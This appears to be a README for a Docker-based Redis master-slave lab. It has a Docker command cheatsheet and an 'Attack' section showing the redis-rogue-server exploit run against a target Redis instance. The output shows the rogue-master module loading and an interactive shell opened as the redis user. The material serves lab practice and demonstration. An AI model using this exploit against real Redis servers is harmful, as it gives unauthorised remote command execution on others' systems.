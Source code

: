 02/10/2021
# Reference
https://laptrinh.vn/books/redis/page/huong-dan-cai-dat-redis-master-slave-tren-centos-7

# Build
```
.\start.bat
```
# Attack
```
root@attack-server:/opt/redis-rogue-server# python3 redis-rogue-server.py --rhost 192.168.0.4 --lhost 192.168.0.5
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.0.4:6379
[info] SERVER 192.168.0.5:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id
[>>] =☺uid=998(redis) gid=996(redis) groups=996(redis)
[<<] whoami
[>>] redis
```

# Docker command cheatsheet

Build image from Dockerfile
```
docker build -t redis-master .
docker run -itd --name redis-master redis-master
docker exec -it redis-master bash
```
Build docker-compose (create image, create and start container)
```
docker-compose up -d
```
Clean docker-compose (Stop container, delete container, delete image)
```
docker-compose down --rmi all
```
docker-compose
```
docker-compose ps
docker-compose stop
docker-compose start
```
clear build cache
```
docker builder prune
```